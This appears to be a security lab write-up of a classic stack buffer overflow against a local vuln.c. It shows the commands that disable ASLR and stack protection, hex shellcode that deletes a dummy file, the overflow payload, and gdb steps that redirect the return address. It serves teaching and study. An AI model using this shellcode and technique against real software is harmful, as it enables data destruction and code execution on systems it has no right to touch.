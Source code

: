 # Inject code to delete file: file_del.asm is given on github 
## 1. Environment preparation 


**Disable randomization of memory addresses**
    
- >sudo sysctl -w kernel.randomize_va_space=0

    ![alt text](image-20.png)

**Compile vuln.c with some option**
- >gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
    - -fno-stack-protector: Disable stack protection
    - -z execstack: allow to execute code on stack
    ![alt text](image-21.png)

**Turn off stack protector of version 16.04, replace shell /bin/sh by /bin/zsh**
- >sudo ln -sf /bin/zsh /bin/sh

    ![alt text](image-22.png)

**Create dummyfile to delete**
- ![alt text](image-23.png)




## 2. Get shellcode of file_del.asm
**Observing the ASCII table, we need to avoid the following characters:**
- 0x00 because it marks the end of a string.
- 0x09 because it's the tab character and would split the argument.
- 0x0a because it's the newline character and would also terminate the string.

**Compile file_del.asm**
- >nasm -g -f elf file_del.asm; ld -m elf_i386 -o file_del file_del.o

**Get shellcode**
- >for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

**Shellcode of file_del.asm**
- >\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.

![alt text](image-24.png)

## 3. Attack vuln.c
### Code: 

![alt text](image-18.png)

### Stackframes:

![alt text](image-19.png)

### Buffer overflow 

- Input shellcode to buf[]
- Exploit buffer overflow to replace return address by address of buf[]
=> the shellcode will be execute and delete dummyfile

**72 bytes = 36 bytes (shellcode) + 32 byte(placement code) + 4 bytes (return address)**

### Take stackframe addresses

1. >gdb vuln.out

2. >disas main

    ![alt text](image-25.png)

3. Add breakpoint before return 
    >b *0x0804846b

    ![alt text](image-26.png)

4. Return program with the input string
    >r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

5. View the stackframes
    >x/80xb $esp

    ![alt text](image-27.png)

6. Look back at the assembly code by using command: 
    >objdump -d file_del

    ![alt text](image-28.png)

7. Update address: 

- Turn back to original string. Turned x00 to  x0f to be able to input, now turn back.
    >set *0xffffd6eb=0x61616100 

- Set return address to the top of buf[], to execute code.
    >set *0xffffd70c=0xffffd6c8 

- Set true value of _filename string "dummyfile".
    >set *0xffffd6d1=0xffffd6e2

8. View stackframes again
    >x/80xb $esp

    ![alt text](image-29.png)


9. Continue running the program

    ![alt text](image-31.png)

    ![alt text](image-17.png)

=> Delete dummyfile successfully